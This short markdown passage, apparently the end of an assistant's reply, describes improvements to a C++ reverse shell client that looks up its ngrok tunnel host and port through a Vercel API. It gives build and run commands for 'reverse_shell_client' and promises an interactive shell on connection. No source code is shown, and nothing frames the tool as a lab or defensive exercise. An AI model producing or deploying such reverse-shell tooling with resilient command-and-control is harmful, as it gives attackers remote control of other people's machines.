 
### ✅ Key Improvements
1. **Dynamic host and port**: No more hardcoding; the client fetches the latest tunnel info from your Vercel API.  
2. **Robust connection**: Works reliably even if the ngrok tunnel changes.
3. **Minimal external dependencies**: Only `libcurl` and `nlohmann/json` are needed.

---

### 🔹 Next Steps
- Compile the code:
```bash
g++ -std=c++17 reverse_shell_client.cpp -o reverse_shell_client -lcurl
```
- Ensure your **Vercel API** is deployed and running.  
- Start your **ngrok TCP tunnel**, run the Python updater, and deploy the API.  
- Run the client:  
```bash
./reverse_shell_client
```
- It will automatically fetch the **current hostname and port**, connect, and provide an interactive shell.

---
